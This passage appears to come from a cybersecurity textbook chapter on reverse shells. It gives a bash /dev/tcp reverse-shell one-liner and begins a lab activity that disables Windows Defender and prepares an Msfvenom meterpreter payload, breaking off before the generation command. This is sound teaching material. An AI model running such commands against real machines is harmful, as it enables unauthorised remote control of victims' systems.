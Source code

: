 ![[../images/10/reverse_shell_connection.png|Victim Reverse Shell Connection|300]]

There are several native technologies that an attacker can leverage on a victim device, called *living off the land binaries (LOLBINS)*.  For example, bash can establish a remote shell using the following command `bash -i >& /dev/tcp/10.0.0.1/8080 0>&1` where `10.0.0.1` is the remote server and `8080` is the port being connected.  Almost any scripting language can create arbitrary outbound connections so there are many reverse shells *one-liners* like the bash command above.  PentestMonkey's Reverse Shell Cheat Sheet (https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) lists several programs that can be used to generate such connections.  A reverse shell can be achieved on a victim device if the attacker can run *remote code execution (RCE)* exploits, arbitrary commands, or if they are able to get the victim user to run malicious software, such as a *trojan*.  

> [!activity] Activity 10.3 - Reverse Shell
> Metasploit comes with a utility called Msfvenom that is used to generate payloads, or executables, that will establish a connection to a Metasploit listener running on an attacker's machine.  You could think of the Msfvenom payloads as reverse shell executables that could be sent to a victim user in a phishing email, or by some other method.  
> 
> In this activity, I will demonstrate how to generate an Msfvenom payload, set up a Metasploit listener, and simulate a victim's execution of the malware using the Windows and Kali VMs.  It is important that both machines are on the same network as they will need to reach each other in order for the reverse shell to be made.
>  ![[../images/10/rev_activity_av.png|Launching Windows Defender Settings|400]]
>  Windows Defender will quickly identify the Msfvenom payload as malware so I will disable the antivirus for the sake of the demonstration.  Note that there are several methods to bypass antivirus that exceed the scope of this demonstration, but that we covered in an earlier chapter.  After starting the Windows VM, I navigate to the "Virus & threat protection" system settings using the search menu.  Then I press "Manage settings" under the Virus & threat protection settings section to launch the setting options window.
>  ![[../images/10/rev_activity_settings.png|Defender Manage Settings|450]]
>  With the Settings window launched, I flip the "Real-time protection" setting to disable.  This will turn Defender off and prevent the blocking of the Msfvenom payload used later.  However, the next time the Windows machine reboots, Real-time protection will be automatically flipped back on.
>  ![[../images/10/rev_activity_disabled.png|Disabled Windows Defender|450]]
>  Jumping over to the Kali VM and launching a terminal, I check Kali's IP address using the IP command.  The Kali IP address 192.168.4.167 will be needed to configure the Msfvenom payload.
>  ```bash
>  ip a
>  ```
>  ![[../images/10/rev_activity_ip.png|Kali IP Address|600]]
>  Msfvenom comes preinstalled in Kali, so it is ready to use.  Running the following command lists the hundreds of supported payloads.  It takes a moment to run but displays various shell, command, and system options.  
>  ```bash
>  msfvenom --list payloads
>  ```
>  ![[../images/10/rev_activity_payloads.png|Msfvenom Payload Options|600]]
>  Some of these payloads are bind shells, while others are reverse shells.  A bind shell is a program that turns the victim into a server with a listening port and service for the attacker to connect to.  Another option to understand is staged versus stageless payloads.  Staged payloads use the syntax `type_method_protocol` while stageless have the syntax `type/method_protocol`.  Notice the slight variation of two underscores versus one.  A staged payload is smaller in file size and will download a second temporary executable to run it.  The stageless payloads are larger and perform all actions in one execution.  The last payload option to consider is shell versus meterpreter.  A shell can be used with any listener, such as Netcat, and is light weight, whereas a meterpreter payload is designed to be used with the Metasploit listener.  Meterpreter comes with many extended features such as upload/download and privilege escalation built-in commands.   
>  
>  Because I will be targeting a Windows 64-bit system that creates a reverse shell, I select the `windows/x64/meterpreter/reverse_tcp` payload to use in my Msfvenom generation.  I must also specify the listening host (192.168.4.167) and port (9001), executable filetype (exe) and the output file (runme.exe).  The following command creates the Msfvenom payload in my current folder.
>  ```bash

[^1]: Missouri gov. calls journalist who found security flaw a “hacker,” threatens to sue - Ars Technica; Oct 14th, 2021; https://arstechnica.com/tech-policy/2021/10/missouri-gov-calls-journalist-who-found-security-flaw-a-hacker-threatens-to-sue/